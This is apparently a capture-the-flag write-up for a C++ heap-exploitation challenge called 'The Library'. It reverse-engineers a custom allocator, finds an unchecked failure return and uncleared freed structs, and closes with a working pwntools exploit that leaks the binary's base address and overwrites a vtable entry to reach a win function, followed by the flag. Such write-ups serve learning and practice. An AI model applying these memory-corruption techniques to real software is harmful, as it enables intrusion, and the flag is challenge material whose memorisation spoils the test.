




# [7b] The Library

Category: `pwn`

Description:

> In a place filled with palindromes everywhere, find the hidden palindrome code with the right configuration.

---

## Part I

Upon running the binary, we are greeted with a text-based prompt:

```
   ____________________________________________________
  |____________________________________________________|
  | __     __   ____   ___ ||  ____    ____     _  __  |
  ||  |__ |--|_| || |_|   |||_|**|*|__|+|+||___| ||  | |
  ||==|^^||--| |=||=| |=*=||| |~~|~|  |=|=|| | |~||==| |
  ||  |##||  | | || | |JRO|||-|  | |==|+|+||-|-|~||__| |
  ||__|__||__|_|_||_|_|___|||_|__|_|__|_|_||_|_|_||__|_|
  ||_______________________||__________________________|
  | _____________________  ||      __   __  _  __    _ |
  ||=|=|=|=|=|=|=|=|=|=|=| __..\/ |  |_|  ||#||==|  / /|
  || | | | | | | | | | | |/\ \  \|++|=|  || ||==| / / |
  ||_|_|_|_|_|_|_|_|_|_|_/_/\_.___\__|_|__||_||__|/_/__|
  |____________________ /\~()/()~//\ __________________|
  | __   __    _  _     \_  (_ .  _/ _    ___     _____|
  ||~~|_|..|__| || |_ _   \ //\ /  |=|__|~|~|___| | | |
  ||--|+|^^|==|1||2| | |__/\ __ /\__| |==|x|x|+|+|=|=|=|
  ||__|_|__|__|_||_|_| /  \ \  / /  \_|__|_|_|_|_|_|_|_|
  |_________________ _/    \/\/\/    \_ _______________|
  | _____   _   __  |/      \../      \|  __   __   ___|
  ||_____|_| |_|##|_||   |   \/ __|   ||_|==|_|++|_|-|||
  ||______||=|#|--| |\   \   o    /   /| |  |~|  | | |||
  ||______||_|_|__|_|_\   \  o   /   /_|_|__|_|__|_|_|||
  |_________ __________\___\____/___/___________ ______|
  |__    _  /    ________     ______           /| _ _ _|
  |\ \  |=|/   //    /| //   /  /  / |        / ||%|%|%|
  | \/\ |*/  .//____//.//   /__/__/ (_)      /  ||=|=|=|
__|  \/\|/   /(____|/ //                    /  /||~|~|~|__
  |___\_/   /________//   ________         /  / ||_|_|_|
  |___ /   (|________/   |\_______\       /  /| |______|
      /                  \|________)     /  / | |

           Welcome to the Library Planning App
      Please provide a name and motto for your library

[Name & Motto] Please provide a name and motto for your library
[Name & Motto] Please enter the name of your library (limited to 16 characters):
```

```
[Name & Motto] The following are your chosen name and motto
  [Name]: a
  [Motto]: b
                 What would you like to do?
============================================================
=                    LIBRARY APP MENU                      =
= 1. Edit Name & Motto                                     =
= 2. Book Shelf Layout                                     =
= 3. Newspapers Stand Layout                               =
= 4. CD/DVD Stand Layout                                   =
= 5. Brochures Stand Layout                                =
= 6. Menu                                                  =
= 7. Exit                                                  =
============================================================
[Library App Main] Enter your choice:
```

This begins to look like a classic pwn challenge. Unfortunately one caveat is that upon decompiling the binary we realise that it is made using C++, increasing the difficulty (and also meaning that the vulnerability is unlikely to originate from trivial input mishandling).

An annoying thing about this challenge is that there are submenus upon submenus, forcing us to analyse 1 by 1 if we want to gain a comprehensive understanding of how the binary works to find vulnerabilities.

While analysing the binary, we also notice that the `win` function is indeed provided, resolving a lot of headaches. In particular, this program uses a lot of vtables, which roughly indicate that our goal will be to hijack one of the vtable entries and call the corresponding entry afterwards.

The program also uses a lot of structs. After tediously renaming most of the functions, I also figured out the structs that are used in the program.



As a rough introduction, this program revolves around 4 "item containers":

* `Bookshelf`
* `Newsstand`
* `CDStand`
* `Brocstand`

For each "item container", you can create (added to a linked list), remove, and edit the layout (edit properties and modify the items in the item container). For the editing sub-functions, where each item container has a different list of sub-functions the program uses a central function to jump to the required sub-function via the corresponding vtable.

The global variables of interest (in memory order) are:

```c
char items[0x50000];
char buf[0x25000];
char *cur_name;
char *container_ll[4]; // for each of the 4 containers
char *container_vtable[4];
char *items_end;
uint num_containers[4];
```

`buf` is a "heap at home", where chunks have fixed sizes (way larger than any of the structs stored inside), and finding an unallocated chunk is as simple as running `rand()` multiple times until one is found.

`items` is a linear buffer which seems to (as far as I know) never decrease in size, meaning that once a chunk of buffer has been allocated it can never be reclaimed.

In terms of usage, `items` is used for the individual item objects within the containers, while `buf` is used for everything else `name/motto, container objects and vtable entries`.

---

## Part II

**Note: This part simply describes my actual solve process, and may not necessarily be fully utilised in the final solve.**

Scanning through the functions, we notice a point of weakness (will be showing `bookshelf_remove` but similar weaknesses exist in other functions):

```c
if ( num_bookshelves )
{
  // ...
  v10 = get_bookshelf(i);
  v9 = &v10->fd;
  v8 = &v10->bk;
  v7 = (__int64 *)v10->bk;
  v6 = (__int64 *)(v10->fd + 8);
  if ( &v10->fd == (__int64 *)v10->fd )
  {
    *v7 = *v8;
  }
  else if ( v7 == v9 )
  {
    bookshelf_ll = get_bookshelf(i + 1);
    *v6 = *v9;
  }
  else
  {
    *v7 = *v9;
    *v6 = *v8;
  }
  v10->free = 1;
  return (unsigned int)--num_bookshelves;
}
```

The removal of an item container from `buf` does 2 things:

* Remove pointer from corresponding linked list
* Set `free` to `1` (available to be picked up by "allocator")

Crucially, the struct data **remains in `buf` and is not properly dealt with or cleared!** This would not have been a problem if the respective `add` functions clear / initialise the struct fields properly (which is observed in most of the functions), but there is one point of vulnerability available to be leveraged, within the `CDStand` implementation:

```c
__int64 cdstand_add()
{
  // ...
    *(_DWORD *)cur->items[0] = 0;
    *(_DWORD *)(cur->items[0] + 8) = 5;
  // ...
}
```

```c
int *__fastcall cdstand_item_add(int a1)
{
  cur = (CDStand_Row *)get_cdstand_row(cdstand);
  if ( cur )
  {
    // ...
  }
}
```

```c
__int64 __fastcall get_cdstand_row(CDStand *a1)
{
  // ...
    switch ( (unsigned int)get_number() )
    {
      case 1u:
        result = a1->items[0];
        break;
      case 2u:
        result = a1->items[1];
        break;
      case 3u:
        result = a1->items[2];
        break;
      case 4u:
        result = a1->items[3];
        break;
      case 5u:
        result = a1->items[4];
        break;
      default:
        // ...
        continue;
    }
  // ...
}
```

For `CDStand` creation, only the first `row` is initialised to a new `item` in `items`; the other `row`s are expected to follow from the first `row` and only saved to the struct when specifically created. The `get_cdstand_row` function also does not have proper bounds and only cares whether the pointer is not null, which means that we can practically make it point anywhere else if given the opportunity. And indeed we can:



Now theoretically, we can possibly abuse this to write to a vtable entry, but that seems pretty tedious and difficult. Instead, we can search a bit deeper to uncover more interesting vulnerabilities.

---

## Part III

The chunk allocation is described in the `next_idx` function:

```c
__int64 next_idx()
{
  __int64 v0; // rax
  unsigned int v2; // eax
  unsigned int i; // [rsp+Ch] [rbp-4h]

  for ( i = 0; ; ++i )
  {
    if ( i > 0x24F )
    {
      // ...
      return 0xFFFFFFFFLL;
    }
    v2 = rand();
    if ( *((_DWORD *)buf + 64 * (v2 % 0x250)) == 1 )
      break;
  }
  return (v2 % 0x250) << 8;
}
```

In order to force a specific "overwrite" within `buf` (as described in Part II above), we have to abuse the allocator. The idea is to use up all allocations, free the target struct, then create a new one such that `next_idx` is forced to land on the target struct location, overwriting it.

However, looking at the implementation (and surrounding code that call the function), we quickly realise another critical vulnerability (again using `bookshelf_add` as an example):

```c
idx = next_idx();
cur = (Bookshelf *)((char *)buf + idx);
```

We think to ourselves, what happens when all allocations on `buf` are used up? The function keeps attempting to find a random available index until the maximum iterations, at which point it gives up and returns `-1` possibly indicating failure.

However, when the function is actually being called, the `-1` case **is not actually being properly dealt with.** When this happens, the code literally takes `-1` as the offset to a "new" allocation, placing the struct at a fixed location without checking, **and thus allows for multiple structs to overlap without having to free them.**

One complication regarding the vtable is that it is only initialised once, **before** the creation of the corresponding struct. This means that when the vtable is forced to `-1`, the corresponding struct will also be written to `-1`, overlapping with and overwriting the vtable in the process, making it difficult to figure out the ELF offset. Thus the choice of the item container matters a lot in this case, and the most suitable one would be `CDStand`, with the following layout:



Thus eyeing the vtable, we will now need to find a suitable struct with a freely editable field such that we can overwrite a vtable entry to point to `win`.

---

### Part IV

This part took me a while, as I found it surprisingly difficult to freely write to the fields stored in `buf` using the item containers, until I remembered about another special struct also stored there:

```c
__int64 __fastcall set_name(int init)
{
  // ...
  idx = 0;
  // ...
  // init = 0 when called from the main menu
  if ( init || (*(_DWORD *)cur_name = 1, idx = next_idx(), idx != -1) )
  {
    cur_name = (char *)buf + idx;
    *(_DWORD *)((char *)buf + idx) = 0;
    // ...
  }
  // ...
}
```

For the initial call (before reaching the main menu), `cur_name` is stored at offset `0` of `buf`. For all subsequent calls with a fully allocated `buf`,

1. `init = 0`, so the right side of the `||` is taken
2. The current `cur_name` is **freed**
3. `next_idx` is called, which is *almost* guaranteed to land on the offset `0` that was *just* freed

While the `cur_name` allocation is not exactly located at offset `-1`, they are practically the same. Again the contents on `buf` are not cleared which allows us to read off the vtable by inputting a blank name / motto. It also allows us to almost freely write to the vtable. The current layout is as shown below:



We have now completed our setup, and now all we have to do is to write the address of `win` to the vtable. Here is the full exploit:

```python
from pwn import *

e = context.binary = ELF('./TheLibrary.elf')
p = e.process() if not args.REMOTE else remote('[REDACTED]', -1)

OFFSET = 0x66b6
WIN = 0x8054

p.sendline(b'') # name
p.sendline(b'') # motto

# use up all allocations
p.sendline(b'5') # brocstand layout
for _ in range(0x300):
    p.sendline(b'1') # add brocstand
    p.sendline(b'')
    p.recvuntil(b'Enter your option:')
    print(p.recvuntil(b'['))
pause()

# all allocations used up, next alloc forced to offset -1
# cdstand vtable, cdstand struct and name all in same location
p.sendline(b'5') # back to library
p.sendline(b'4') # cdstand layout
p.sendline(b'1') # add cdstand
p.sendline(b'5') # back to library

# use name to read vtable function
p.sendline(b'1') # set name
p.sendline(b'') # name
p.clean()
p.sendline(b'') # motto

# pie leak
p.recvuntil(b' [Motto]: ')
leak = u64(p.recvline()[8-2+8:8-2:-1])
print('Leak:', hex(leak))
e.address = leak - OFFSET
print('ELF :', hex(e.address))

# patch over last function in vtable
p.sendline(b'1') # set name
p.sendline(b'') # name
p.sendline(b'\x00'*(8-1) + p64(e.address + WIN)[::-1]) # motto

# call last function (win)
p.sendline(b'4') # cdstand layout
p.sendline(b'2') # edit cdstand
p.sendline(b'1') # index 1
p.sendline(b'5') # function 5

p.interactive()
```

(Note: The script above does not work all the time, but it should work often enough.)

```
TISC{fr3e-FrE3-l3t_mE_fReEe3!!}
```
